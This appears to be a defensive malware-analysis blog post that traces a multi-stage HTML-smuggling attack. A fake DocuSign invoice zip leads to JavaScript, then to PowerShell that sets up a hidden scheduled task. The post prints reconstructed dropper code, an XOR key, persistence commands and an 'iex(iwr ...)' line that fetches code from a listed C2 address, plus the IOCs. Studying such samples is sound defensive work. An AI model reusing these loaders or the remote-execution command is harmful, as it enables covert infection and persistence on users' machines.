 ```yaml
---
title: Malware Analysis
published: true
---
```


# STAGE 1:
	`064ee9cc4256a4e004d3c6e74e1a4cc2d686f82a7e22640aa718167b5af40a29  ./sample.html `

this is a HTML file containing the javascript code that drops a zip file,
we can see in the body section it's the payload that is encrypted, the id is `jzasjnpc` & class is `bwkytcnl`.
this is the excrypted zip file, first it's getting converted from base64 & then xor & then base64 decoded again.
the xor key for this zip payload is `so83fnguk42vuluw82syq55zhqqf3qm9sznw3skkxdfbcj2fjy1zbi6t4wn89m8kafg1kvi04dppc1q5xye8zzxo4k6utjrwwsc2f59khfmzkvycg8qxwl36asncitbj`,

```html
<body>
	<main class="bwkytcnl" id="jzasjnpc" data="JipLdyQsNjEqdXM/NCo/QEleEiA9UUYjQzcGJ3IhB3AyOy8ScjIqKiwzIFcuPnMSJxNwAy8QBz5WGTROWDp2By0zNUcyRT9kVTMUBS9cAU8uM....
```
name of the zip file is `May10-2023-Invoice-DocuSign.zip`

this is the procedure that generates the zip file, and in the end that object is executed
```javascript
	function extract_zip(input_url_var, 512)
	{

		var array_new = [];
		var fromb64input_data = atob_fromB64(input_url_var);
		for(var i = 0; i < fromb64input_data.length; i += 512)
		{
			var sliced = fromb64input_data.slice(i, i + 512);
			var sliced_array = new this[array](sliced.length);
			for(var i = 0; i < sliced.length; i++)
			{
				sliced_array[i] = sliced.charCodeAt(i);
			}
			var out_zip = new this[Uint8Array](sliced_array);
			array_new.push(out_zip);
		}
		var zip_data = new this[blob](array_new, {type: octet/stream});
		return zip_data;
	}
	
	function zip_create(zip_data)
	{
		let zip_name = "May10-2023-Invoice-DocuSign" + ".zip";
		let file_obj = new this[file]([zip_data], zip_name, {type: application/zip});
		let file_obj_url = this[URL][createObjectURL](file_obj);
		var createElement_a = document.createElement("a");
		document.body.appendChild(createElement_a);
		createElement_a.setAttribute(href,file_obj_url);
        		createElement_a[download] = zip_name;
                createElement_a.click();
		this[URL][revokeObjectURL](file_obj_url);
	}
```

# STAGE 2:
	`a36c8ea0188ddc3ed8f06c8e352bb314bc222fef6f9baeb211cd97ac62462dec  May10-2023-Invoice-DocuSign.zip`

this zip file contains a javascript file.
	`44737c01c93b96afcbb96c0b38993594d29a0a07d625999ef503c8424da90b0e  ./May10-2023-Invoice-DocuSign.js`

this javascript file contains 4 strings, after concatinating them and after removing "s" & "V" chars & then converting from hex,
gets us another javascript. this is the procedure of that
```javascript
	temp = STR_4.replace(/[sV]/g,'');
	var ooqajrjz = "";
	for (var i=0;i<temp.length;i+=2)
	{
		ttjqepbj = temp.substr(i,2);
		ooqajrjz += str_from_char_code(kmbvxuoa(ttjqepbj, 16));
	}
```

# STAGE 3:
this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64.
```javascript
var payload = ' < payload string > '

var split_payload = xhhwtarcadepz(payload).split('!');

Win = new this[split_payload[4]](split_payload[1]);

Win.PopUp('This document is corrupt.', 10, 'ERROR', 48);

var yjdednyw = new Date();

while (true) {
	WScript.Sleep(10);
	var qhchhvwd = new Date();

	if (qhchhvwd - yjdednyw > 774720) {
		Win[split_payload[3]](split_payload[2], keCarthagedf);
		break;
	}
};

```

# STAGE 4:
this poweshell script decodes some byte arrays using xor that is information about the scheduled task.
this script will write a file to `C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs>`

```js
$rERbWtRv = [Convert]::FromBase64String(${isWABlOEp})

$bytes = Get-Variable -ValueOnly -Name '5EVLS'
$bytes.writeallbytes.Invoke(${NynG}, ${ReRBwTRV})

$askzpHUpAj = (pwd).ToString() + '\'

$vQpSBXgyj = &(cd $JtATCAR)

$tkqrmLSfPD = '"' + (loopFunc([System.Byte[]]@(0x22,0x2e,0x33,0x6b,0x63,0x22,0x3c,0x39,0x6b,0x66,0x3e,0x38,0x2e,0x29,0x6b)) 75) + "$iZZoO$suqqSiGL/$vQpsbXGyj)" + '"'

$eRQcf = Start-Sleep -Seconds $TkQRmlsFpD

$tpNDJPwAa = New-ScheduledTaskPrincipal $UJrw

$aIufdyWasr = Register-ScheduledTask -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 365)

$dwtTAWqx = New-ScheduledTaskSettingsSet -Hidden -MultipleInstances Parallel -AllowStartIfOnBatteries

Register-ScheduledTask -TaskName ${WbWmgQb} -Action ${eRQcf} -Trigger ${aIufdyWasr} -Settings ${dwtTAWqx}

```

The persistent VBS is merely a WScript command to run PowerShell, and it uses parameters for the C2 from the scheduled task command.
```vb
c = WScript.Arguements(0)
set s = CreeateObject("WScript.shell")
s.Run "Powershell.exe -exec bypass" & c, 0
```

this scheduled task is running approx every minute, & it runs thar vbs script with the C2 information as arguements.
```
C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs> "iex(iwr -useb http://159.65.42[.]223/r/idm/148F4423C27E506D)"
```

# IOCs

1. 159.65.42[.]223:80